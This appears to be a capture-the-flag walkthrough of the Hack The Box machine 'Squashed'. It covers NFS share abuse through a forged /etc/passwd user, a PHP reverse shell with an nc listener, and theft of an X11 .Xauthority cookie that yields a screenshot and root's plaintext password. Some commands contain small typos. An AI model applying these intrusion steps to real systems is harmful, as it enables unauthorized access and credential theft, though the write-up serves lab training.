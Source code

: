 <h2> Target: 10.10.11.191 Squashed </h2>
<html> 
<body> 
<b>Initial Access:</b><br>
nmap -Pn -p- 10.10.11.191 --min-rate=5000|grep open|awk -F '/' '{print $1}'|tr '\n' ',' 	<br>
Output shows open ports: 22,80,111,2049,36873,45053,45653,46087 <br><br>
Enumerating these open ports further with nmap: <br>
nmap -Pn 10.10.11.191 --min-rate=5000 -p 22,80,111,2049,36873,45053,45653,46087 -sC -sV -oN nmap.squashed
  
<br> ![image](https://user-images.githubusercontent.com/93153300/201415120-8ecfb9f5-c174-487f-b0c4-751f762293c3.png)
 
Check if anything is mounted and accessible on port 2049/nfs using command: showmount -e 10.10.11.191:
 
![image](https://user-images.githubusercontent.com/93153300/201415208-a4c7cf1f-6a56-4604-98a6-e044f82cb366.png)
 
We find 2 file-shares that we can look into.  The ‘*’ at the end of the file-shares indicates that it is globally accessible, meaning we can access those file-shares.  Start by checking on /var/www/html.  Create a mounting directory, we will call it mmnt, using command: mkdir mmnt <br>
Mount the ‘/var/www/html’ share using command: mount -o soft -o bg -t nfs 10.10.11.191:/var/www/html/ mmnt
 
Go into mmnt to check the target file-share ‘/var/www/html’ we just mounted using command: cd mmnt.  <br>
We get a 'permission denied' response: 
 
![image](https://user-images.githubusercontent.com/93153300/201415223-8edce889-39c4-4945-b730-f06b52e3f25a.png)
 
Check file permissions using command: ls-al mmnt 
 
![image](https://user-images.githubusercontent.com/93153300/201415249-97a66f19-039e-416d-83c5-7270bf7f8d2f.png)

Not much clues here to help us.  Instead of looking at permissions inside of directory mmnt, look at permissions of the directory mmnt using command: ls -al 

![image](https://user-images.githubusercontent.com/93153300/201415267-811e1fdc-72f0-4f3a-9b11-f0384eee0d81.png)

This shows the mounted directory is owned by www-data.  In order to be able to read the files in the mounted directory mmnt, create a user called ‘www-data’.  These are the steps to create a new user: <br>
Step 1: open /etc/passwd with a text editor. <br>
Step 2: copy a user you currently have on the system in /etc/passwd, we will call him ‘testuser’, and change the name to www-data. 

![image](https://user-images.githubusercontent.com/93153300/201415283-bd8be1f9-7ac5-492a-afc6-32a426fd9853.png)
 
Step 3: change the ‘x’ found after the name of the user into a ‘*’.
 
![image](https://user-images.githubusercontent.com/93153300/201415311-d3faf871-76e6-473d-ad4f-1a41a278621b.png)
 
To change to user www-data use command: su www-data.  <br>
Now we have access to the mounted share.  

![image](https://user-images.githubusercontent.com/93153300/201415344-017d1402-3676-44a9-8b3c-4f735066df96.png)

Use this to get a reverse shell.  First, put a pentestmonkey php reverse shell in this ‘/var/www/html’ mounted file share, we will call it ‘shell.php’.  Next, open a netcat listener using command: nc -lvnp 443 (I will use pwncat-cs -lp 443 because pwncat gives a better shell than netcat).  Finally, visit port 80 at http://10.10.11.191/shell.php to run the ‘shell.php’ file. <br>
It worked, we have shell as alex.  We can go to /home/alex/user.txt to get the flag.
 
![image](https://user-images.githubusercontent.com/93153300/201415416-4b04cbf0-1ce3-4bd6-932e-a4e7be57547f.png)
_______________________________________________________________________________
<b>Privilege Escalation:</b><br>
Directory /home/ross shows a ‘.Xauthority’ file.  ‘.Xauthority’ file is used to store credentials in the form of cookies.  If we can get the ‘.Xauthority’ file then we should be able to use that to dump an image of an X window.  The image of an X window will show us a screenshot of the display in its current state.  The display may reveal interesting information.  

Steps to read the ‘.Xauthority’ file: <br>
Step 1: we don’t have permissions to read the file ‘.Xauthority’, however we saw earlier that /home/ross is a mounted file-share that we can access.  We can get access to that file-share the same way we did for user www-data.  Repeat the steps we did before to create a user www-data, but this time call the user ‘ross’.  
Step 2: unmount the ‘/var/www/html’ share using command: umount mmnt.  <br>
Step 3: mount file-share /home/ross using command: mount -o soft -o bg -t nfs 10.10.11.191:/home/ross mmnt.  
Step 4: on our local system, switch to user ross using command: su ross.   We now have permissions to read ‘.Xauthority’ in /home/ross.   

To make use of the ‘.Xauthority’ we need the ‘.Xauthority’ file to be on the target shell, not on our local system.  Here are the steps to get the ‘.Xauthority’ on the target shell:

(Usually, the standard copy/upload commands would suffice to do this.  However, we run into some issues if we do that because this is a mounted share and not a local file on our system. So we will output the file content and then copy and paste the file content.  The challenge is that ‘.Xauthority’ is in raw format.  Raw format doesn’t copy well so we cannot do a simple copy paste.)

Step 1:  on the mounted file-share, base64 encode the content of ‘.Xauthority’ by using the command: cat .Xauthority | base64 -w 0 <br>
Step 2: copy the base64 string to the target, and decode the base64 string back to its original raw format.  To do this, go back to the target alex user shell and run the command: echo -n '<put here the base64 encoded string>' | base64 -d > /tmp/.Xauthority 
 
![image](https://user-images.githubusercontent.com/93153300/201415434-3ce491fe-d5ef-4209-be4d-0872e9eee185.png)

We now have the ‘.Xauthority’ file on the target shell.  To get the screenshot of the display in its current state we will use a command called ‘xwd’.  We need to do two things before we can run ‘xwd’ successfully.  
Step 1: Set the environment variable of XAUTHORITY to the file we made in /tmp/.Xauthority.  Use command: export XAUTHORITY=/tmp/.Xauthority <br>
Step 2: To run ‘xwd’ we need to know the ‘display’.  Run command ‘w’  to see the display:
 
![image](https://user-images.githubusercontent.com/93153300/201415457-53513776-95f7-4d9a-a33a-23f3bdf5089b.png)
  
The output from the ‘w’ command shows in the ‘FROM’ column that the display used is ‘:0’ .

We are ready to run ‘xwd’. Use command: xwd -root -screen -silent -dsiplay :0 > /tmp/screen.xwd 
Download /tmp/screen.xwd to our local system.  To do this we will open a python server on the target shell using command: python3 -m http.server 8000.  <br>
On our local system, use command: wget http://10.10.11.191/screen.xwd

The ‘screen.xwd’ file is now on our local system.  To see the display on ‘screen.xwd’ convert it to a ‘.png’ file using command: convert screen.xwd screen.png <br>
Opening the ‘screen.png’  file shows:

![image](https://user-images.githubusercontent.com/93153300/201415474-6e93858c-05d9-4696-bef6-582d5e16560f.png)

This shows root’s password. Use command ‘tesseract’ to convert the password image into clear text  instead of copying it down letter by letter: tesseract screen.png screen.txt <br>
The password is ‘cah$mei7rai9A’.  Back on the target shell as user alex run command: su → when prompted for password enter the password.  <br>
We have shell as root.  We can get the flag at /root/root.txt
</body>
</html>

